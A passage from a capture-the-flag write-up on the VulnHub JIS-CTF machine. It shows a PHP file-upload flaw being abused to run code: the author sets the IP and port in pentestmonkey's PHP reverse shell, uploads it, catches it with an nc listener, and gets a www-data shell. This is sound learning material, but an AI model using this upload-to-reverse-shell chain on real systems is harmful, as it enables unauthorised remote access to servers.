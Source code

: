 At first, I decide to create a file that will check whether or not `php` code will execute. 

{% highlight bash %}
root@kali:~/vulnhub/jis-ctf# vi test.php
root@kali:~/vulnhub/jis-ctf# cat test.php 
<?php
echo("Will it work?");
?>
{% endhighlight %}

We can see a simple `Success` message but in `/uploaded_files` directory there's no change from the last state, still blank file. That's when I noticed that we have to append the name of the file to the directory just like this `uploaded_files/test.php`. 

And to surprise, `php` code is executed.

{% highlight text %}
Will it work?
{% endhighlight %}

Now my goal is to get and upload `php reverse shell` from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell). 

As always, we have to change the IP address in this file in order to work. 

{% highlight bash %}
root@kali:~/vulnhub/jis-ctf# touch reverse-shell.php
root@kali:~/vulnhub/jis-ctf# vi reverse-shell.php 
root@kali:~/vulnhub/jis-ctf# cat reverse-shell.php 
$ip = '10.0.0.4';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
{% endhighlight %}

At that moment we are ready to run the listener with `nc` that will listen for connection from reverse shell. 

What does the parameters mean? 

* *-l* - listen
* *-v* - verbose output
* *-n* - don't do DNS lookups
* *-p 1234* - specify port 1234

{% highlight bash %}
root@kali:~# nc -lvnp 1234
listening on [any] 1234 ...
{% endhighlight %}

Now in the same way that worked with the previous file, we're going to upload the reverse shell and go to that file with `/uploaded_files/reverse_shell.php`. In the meantime, `nc` should be able to 'catch' the connection. 

{% highlight bash %}
root@kali:~# nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.0.0.4] from (UNKNOWN) [10.0.0.5] 55562
Linux Jordaninfosec-CTF01 4.4.0-128-generic #154-Ubuntu SMP Fri May 25 14:15:18 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 11:38:26 up 33 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
{% endhighlight %}
